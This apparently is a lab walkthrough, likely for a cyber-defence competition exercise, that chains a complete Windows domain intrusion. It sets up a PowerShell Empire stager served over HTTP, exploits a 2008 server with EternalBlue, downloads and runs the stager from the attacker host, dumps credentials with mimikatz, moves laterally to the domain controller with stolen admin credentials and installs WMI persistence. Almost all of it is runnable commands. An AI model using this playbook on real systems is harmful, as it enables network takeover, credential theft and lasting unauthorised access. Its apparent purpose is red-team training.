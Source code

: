 ## Log in to Kali machine
```
ssh -i wbcloud.pem ec2-user@[kali ip]
```
Your call on running the rest of the commands as root, but it's recommended for simplicity: `sudo su -`

## Install Powershell Empire
```
cd /opt
git clone https://github.com/EmpireProject/Empire.git
cd Empire
setup/install.sh
```
Just press enter at the first two install screens.
When it asks for a server negotiation password enter something like `ccdc`

## Create an Empire stager and serve it via the web
```
# Remember Powershell IS case sensitive
./empire
listeners
uselistener [tab][tab]#See available listener types.  Needs space before tab.
uselistener http
info
execute

back
back
usestager [tab][tab] to list stagers
usestager windows/launcher_bat
set Listener http
execute
#Writes stager to /tmp/launcher.bat)
exit

mkdir serve
cd serve
mv /tmp/launcher.bat .
python -m SimpleHTTPServer 8000 &

cd ..
./empire
# http listener will automatically start
```

## Exploit Old Win2008 box with EternalBlue
```
# Start a new ssh window for meterpreter
ssh -i wbcloud.pem ec2-user@[kali ip]

msfconsole
use exploit/windows/smb/ms17_010_eternalblue
set RHOST 10.1.0.15
exploit
# After "WIN" is displayed, press enter.  You should see C:\Windows\system32
# You could ctl-z and continue exploitation with metasploit here
# use post/multi/manage/shell_to_meterpreter
# set SESSION 1
# exploit
# sometimes you need to kill the listener and run it again
```

## Call our Empire stager
```
powershell.exe -C "Invoke-WebRequest 'http://10.1.0.200:8000/launcher.bat' -OutFile launcher.bat
launcher.bat
# You should see a web request then an agent callback in the Empire window
```

## Use the session
```
back
interact [tab]
info
mimikatz
# sekurlsa::logonpasswords
# only the computer ID credentials are cached right now
```

## Fake a login from DomAdmin
# Start Remote Desktop Client
# Enter IP for Member 1
# Login as DomAdmin:DAPassword1!

## Run mimikatz from Empire again
```
mimikatz
# Automatically runs logon passwords
creds
# make a note of the id for DomAdmin
```

## Connect to the Domain Controller
```
# Still interacting with the session
usemodule lateral_movement/invoke_psremoting
set Listener http
set CredID [DomAdmin id (password not hash)]
set ComputerName pdc
run
# You should see a connect back from the PDC
```

## Install persistence
```
usemodule persistence/elevated/wmi
info
set Listener http
set DailyTime 23:40
# Five minutes or so from now
# Acknowledge that this is not opsec safe
# Wait for five minutes or so, then watch for callback
```

## Test reboot persistence
```
#Using the remote desktop connection, reboot the PDC.
test
```
